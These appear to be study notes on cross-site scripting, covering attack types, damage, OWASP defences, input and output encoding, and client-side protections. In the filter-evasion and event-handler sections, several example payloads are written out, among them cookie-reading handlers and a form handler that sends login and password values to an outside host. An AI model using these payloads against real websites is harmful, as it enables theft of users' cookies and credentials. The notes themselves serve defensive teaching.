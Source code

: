 # what is XSS
        An XSS vulnerability is present when an attacker can
        inject scripting code into pages generated by a web
        application

# Methods for injection malicious code :
        -Reflected XSS
            the attack script is reflected back to the user as part of a page from the victim site "inject malicious script into its server"
        
        -Stored XSS
            the attacker stores the malicious code in a ressource managed by the web application such as a database
            we can use images 

        Others , such as DOM based attacks

# Damage Caused by XSS:
        Stealing informations:

        spoofing requests:

        web defacing :
            change the contant of a page 

        system compromise :
            exploiting vuln through the code injection

        
# How to Protect Yourself (OWASP)
        • The best way to protect against XSS attacks:
            – Validate all headers, cookies, query strings, form fields, and hidden
            fields against a rigorous specification of what should be allowed.
            
            – Do not attempt to identify active content and remove, filter, or sanitize
            it. There are too many types of active content and too many ways of
            encoding it to get around filters for such content.
            
            – Adopt a ‘positive’ security policy that specifies what is allowed.
            ‘Negative’ or attack signature based policies are difficult to maintain
            and are likely to be incomplete. 


# Input data validation and filtering
        • Never trust client-side data
            – Best: allow only what you expect
        
        • Remove/encode special characters
            – Many encodings, special chars!
            – E.g., long (non-standard) UTF-8 encodings
        
# Output filtering / encoding
        • Remove / encode (X)HTML special chars
            – &lt; for <, &gt; for >, &quot for “ …
        
        • Allow only safe commands (e.g., no <script>…)
        
        • Caution: `filter evasion` tricks
            – See XSS Cheat Sheet for filter evasion
            – E.g., if filter allows quoting (of <script> etc.), use
            malformed quoting: <IMG “””><SCRIPT>alert(“XSS”)…
            – Or: (long) UTF-8 encode, or…
        
        • Caution: Scripts not only in <script>!
            – Examples in a few slides

# !!!Caution: Scripts not only in <script>!
        • JavaScript as scheme in URI
            – <img src=“javascript:alert(document.cookie);”>
        • JavaScript On{event} attributes (handlers)
            – OnSubmit, OnError, OnLoad, …
        • Typical use:
            – <img src=“none” OnError=“alert(document.cookie)”>
            – <iframe src=`https://bank.com/login` onload=`steal()`>
            – <form> action="logon.jsp" method="post" onsubmit="hackImg=new Image;
                hackImg.src='http://www.digicrime.com/'+document.for
                ms(1).login.value'+':'+
                document.forms(1).password.value;" </form>

# Advanced anti-XSS tools
        • Dynamic Data Tainting
            – Perl taint mode
        • Static Analysis
            – Analyze Java, PHP to determine possible flow of
            untrusted input
                    
# Client-side XSS defenses
        – Proxy-based: analyze the HTTP traffic exchanged between
            user’s web browser and the target web server by scanning
            for special HTML characters and encoding them before
            executing the page on the user’s web browser
        – Application-level firewall: analyze browsed HTML pages for
            hyperlinks that might lead to leakage of sensitive
            information and stop bad requests using a set of
            connection rules.
        – Auditing system: monitor execution of JavaScript code and
            compare the operations against high-level policies to
            detect malicious behavior

